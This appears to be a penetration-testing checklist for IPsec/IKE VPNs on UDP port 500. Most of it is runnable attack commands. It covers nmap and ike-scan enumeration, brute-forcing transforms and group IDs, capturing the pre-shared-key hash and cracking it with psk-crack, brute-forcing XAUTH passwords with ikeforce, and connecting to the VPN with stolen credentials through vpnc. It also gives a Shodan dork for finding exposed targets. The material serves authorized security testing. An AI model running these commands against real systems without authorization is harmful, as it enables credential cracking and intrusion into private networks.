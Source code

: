 # IPsec / IKE VPN (Port 500/UDP) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating IKE on port 500/UDP, I realistically expect to find:

- [ ] Open ISAKMP service confirming IPsec VPN
- [ ] Supported IKE phases and modes (Main / Aggressive)
- [ ] Valid transform proposals (Encryption, Hash, DH Group, Auth type)
- [ ] Pre-Shared Key (PSK) hashes (if Aggressive mode enabled)
- [ ] VPN vendor fingerprinting (Cisco, Juniper, etc.)
- [ ] Possible weak DH groups (1,2)
- [ ] Group Names / IDs for Aggressive Mode
- [ ] XAUTH credentials (username/password)

---

## ✅ IPsec / IKE VPN Pentest Checklist

- [ ] **Scan for Open Port 500/UDP**
    ```bash
    nmap -sU -p 500 <IP>
    ```

- [ ] **Basic Discovery of ISAKMP / IKE**
    ```bash
    ike-scan -M <IP>
    ```

    - Main mode handshake shows supported transform:
        - Encryption (e.g. 3DES)
        - Hash (e.g. SHA1)
        - DH Group (e.g. modp1024)
        - Auth type (e.g. PSK)
    - Look for **"1 returned handshake"** indicating valid transform.

- [ ] **Brute-Force Transforms if Necessary**
    - Generate dictionary:
        ```bash
        for ENC in ...; do for HASH in ...; do for AUTH in ...; do for GROUP in ...; do echo "--trans=$ENC,$HASH,$AUTH,$GROUP" >> ike-dict.txt; done; done; done; done
        ```
    - Brute-force transforms:
        ```bash
        while read line; do (echo "Valid trans found: $line" && ike-scan -M $line <IP>) | grep "Valid trans found"; done < ike-dict.txt
        ```
    - Try **Aggressive Mode**:
        ```bash
        ike-scan -M --aggressive <IP>
        ```

- [ ] **Fingerprint VPN Vendor**
    - Identify vendor using backoff patterns and VID:
        ```bash
        ike-scan -M --showbackoff <IP>
        ```
    - Alternative with Nmap:
        ```bash
        nmap -sU -p 500 --script ike-version <IP>
        ```

- [ ] **Brute-Force Group Names (IDs)**
    - Check if Aggressive Mode responds to fake ID:
        ```bash
        ike-scan -P -M -A -n fakeID <IP>
        ```
    - If no fake hash returned, brute-force group IDs:
        ```bash
        while read line; do (echo "Found ID: $line" && ike-scan -M -A -n $line <IP>) | grep "Found ID:"; done < groupnames.txt
        ```
    - Use **iker.py** or **ikeforce** as alternative tools:
        ```bash
        ./ikeforce.py <IP> -e -w ./wordlists/groupnames.dic
        ```

- [ ] **Capture PSK Hash**
    - If Aggressive mode supported and group ID is known:
        ```bash
        ike-scan -M -A -n <ID> --pskcrack=hash.txt <IP>
        ```
    - Crack PSK hash:
        ```bash
        psk-crack -d <wordlist> hash.txt
        ```

- [ ] **Brute-Force XAUTH (if applicable)**
    - Using ikeforce:
        ```bash
        ./ikeforce.py <IP> -b -i <GROUP_ID> -u <USERNAME> -k <PSK> -w passwords.txt
        ```

- [ ] **Establish VPN Connection (if creds found)**
    - Configure VPNC on Kali:
        ```
        cat > /etc/vpnc/vpntest.conf << EOF
        IPSec gateway <IP>
        IPSec ID <GROUP_ID>
        IPSec secret <PSK>
        IKE Authmode psk
        Xauth username <USER>
        Xauth password <PASS>
        EOF
        vpnc vpntest
        ifconfig tun0
        ```

- [ ] **Sniff Group IDs on Network**
    - Use Wireshark or tcpdump to capture Aggressive Mode packets (IDs often in clear).

---

## ✅ IPsec / IKE Useful Commands

- **Quick Check with Nmap**
    ```bash
    nmap -sU -p 500 <IP>
    nmap -sU -p 500 --script ike-version <IP>
    ```

- **Basic Ike-scan Example**
    ```bash
    ike-scan -M <IP>
    ike-scan -M --aggressive <IP>
    ```

- **Vendor Fingerprinting**
    ```bash
    ike-scan -M --showbackoff <IP>
    ```

- **PSK Hash Capture and Crack**
    ```bash
    ike-scan -M -A -n <ID> --pskcrack=hash.txt <IP>
    psk-crack -d /usr/share/wordlists/rockyou.txt hash.txt
    ```

- **ikeforce Tool Example**
    ```bash
    git clone https://github.com/SpiderLabs/ikeforce.git
    ./ikeforce.py <IP> -e -w ./wordlists/groupnames.dic
    ./ikeforce.py <IP> -b -i <GROUP_ID> -u <USERNAME> -k <PSK> -w passwords.txt
    ```

---

## ✅ Shodan Dork

- `port:500 IKE`

---

## ✅ Notes

- Aggressive Mode exposes hashes vulnerable to offline cracking.
- Weak DH groups (modp1024) are susceptible to precomputation attacks.
- XAUTH often integrated with Active Directory / RADIUS.
- Valid transform discovery is key before further exploitation.
